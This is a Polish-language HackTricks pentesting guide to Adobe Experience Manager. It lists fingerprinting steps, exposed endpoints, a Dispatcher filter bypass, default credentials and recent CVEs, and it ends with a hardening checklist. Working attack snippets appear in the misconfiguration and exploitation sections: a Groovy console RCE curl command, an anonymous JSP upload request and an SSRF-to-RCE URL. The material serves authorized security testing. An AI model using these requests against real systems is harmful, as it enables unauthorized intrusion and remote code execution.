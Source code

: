 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, część Adobe Experience Cloud) to korporacyjny CMS, który działa na Apache Sling/Felix (OSGi) oraz Java Content Repository (JCR).
> Z perspektywy atakującego instancje AEM często ujawniają niebezpieczne punkty końcowe do rozwoju, słabe zasady Dispatcher, domyślne dane uwierzytelniające oraz długą listę CVE, które są łatanie co kwartał.

Lista kontrolna poniżej koncentruje się na **zewnętrznie dostępnej (unauth) powierzchni ataku**, która wciąż pojawia się w rzeczywistych zaangażowaniach (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Inne szybkie wskaźniki:
* `/etc.clientlibs/` statyczna ścieżka obecna (zwraca JS/CSS).
* `/libs/granite/core/content/login.html` strona logowania z banerem „Adobe Experience Manager”.
* `</script><!--/* CQ */-->` komentarz na dole HTML.

---

## 2. Wysokowartościowe punkty końcowe bez uwierzytelnienia

Ścieżka | Co otrzymujesz | Uwagi
---- | ------------- | -----
`/.json`, `/.1.json` | Węzły JCR za pomocą **DefaultGetServlet** | Często zablokowane, ale *Dispatcher bypass* (patrz poniżej) działa.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Wyciek drzewa stron, wewnętrzne ścieżki, nazwy użytkowników.
`/system/console/status-*`, `/system/console/bundles` | Konsola OSGi/Felix | 403 domyślnie; jeśli ujawnione i znalezione dane uwierzytelniające ⇒ RCE przy przesyłaniu pakietów.
`/crx/packmgr/index.jsp` | Menedżer pakietów | Umożliwia przesyłanie pakietów treści z uwierzytelnieniem → przesyłanie ładunków JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Jeśli ujawnione → dowolne wykonanie Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Dzienniki audytu | Ujawnienie informacji.
`/libs/cq/ui/content/dumplibs.html` | Zrzut ClientLibs | Wektor XSS.

### Sztuczka z obejściem Dispatcher
Większość stron produkcyjnych znajduje się za *Dispatcher* (reverse-proxy). Jego zasady filtrów można obejść, dodając dozwoloną statyczną rozszerzenie **po średniku lub zakodowanej nowej linii**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Jedno zapytanie, jak powyżej, często ujawnia węzły profilu użytkownika z adresami e-mail. P-T Partners opublikowało dobre wskazówki dotyczące tej słabości. 【】

---

## 3. Typowe błędne konfiguracje (wciąż obecne w 2025)

1. **Anonimowy serwlet POST** – `POST /.json` z `:operation=import` pozwala na dodawanie nowych węzłów JCR. Zablokowanie `*.json` POST w Dispatcherze to naprawia. 【】
2. **Profile użytkowników dostępne dla wszystkich** – domyślne ACL przyznaje `jcr:read` na `/home/users/**/profile/*` wszystkim.
3. **Domyślne dane logowania** – `admin:admin`, `author:author`, `replication:replication`.
4. **Włączony WCMDebugFilter** ⇒ odzwierciedlone XSS przez `?debug=layout` (CVE-2016-7882, wciąż znalezione w starszych instalacjach 6.4).
5. **Ekspozycja Groovy Console** – zdalne wykonanie kodu przez wysłanie skryptu Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Ostatnie luki (cykl wydania pakietów serwisowych)

Kwartał | CVE | Dotknięte | Wpływ
------- | --- | -------- | ------
Grudzień 2024 | **CVE-2024-43711** | 6.5.21 i wcześniejsze | Niewłaściwa walidacja wejścia → **Wykonanie dowolnego kodu** (wymaga niskoprawnych uprawnień). 【】
Grudzień 2024 | CVE-2024-43724/26 | 6.5.21 i wcześniejsze | DOM / Przechowywane XSS w kreatorze przenoszenia strony. 【】
Grudzień 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS oparte na DOM przez spreparowany URL. 【】
Grudzień 2022 | CVE-2022-30683 | ≤ 6.5.13 | Wada w projektowaniu kryptograficznym → odszyfrowanie sekretu (wymaga niskoprawnych danych logowania). 【】

Zawsze sprawdzaj biuletyn *APSB* odpowiadający pakietowi serwisowemu klienta i żądaj najnowszej wersji **6.5.22** lub *Cloud Service 2024.11*.

---

## 5. Fragmenty eksploatacji

### 5.1 RCE przez obejście dispatcher + przesyłanie JSP
Jeśli możliwe jest anonimowe zapisywanie:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Teraz zażądaj `/content/evil.jsp` – JSP działa z użytkownikiem procesu AEM.

### 5.2 SSRF do RCE (historyczne < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` z **aem-hacker** automatyzuje cały proces. 【】

---

## 6. Narzędzia

* **aem-hacker** – skrypt do enumeracji typu szwajcarski scyzoryk, wspiera obejście dispatcher, wykrywanie SSRF, sprawdzanie domyślnych poświadczeń i więcej.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – rekurencyjnie żądaj `/_jcr_content.(json|html)`, aby odkryć ukryte komponenty.
* **osgi-infect** – przesyłaj złośliwy pakiet OSGi przez `/system/console/bundles`, jeśli dostępne są poświadczenia.

---

## 7. Lista kontrolna wzmacniania (dla rekomendacji w Twoim raporcie)

1. Utrzymuj instancję na **najbardziej aktualnym pakiecie serwisowym** (stan na lipiec 2025: 6.5.22).
2. Usuń/zmień domyślne konta; wymuś SSO/SAML.
3. Zaostrzyć **filtry Dispatcher** – odrzucić `;`, zakodowane nowe linie oraz `*.json` lub `*.querybuilder.json` dla anonimowych użytkowników.
4. Wyłącz lub zabezpiecz konsolę (`/system/console`, `/crx/*`, `/etc/groovyconsole`) za pomocą listy dozwolonych adresów IP.
5. Zastosuj pakiet *Wzmacnianie uprawnień anonimowych* dostarczony przez Adobe.

## Odniesienia

* Adobe Security Bulletin APSB24-69 – „Aktualizacje zabezpieczeń dla Adobe Experience Manager (grudzień 2024)”.
* 0ang3el – narzędzie aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
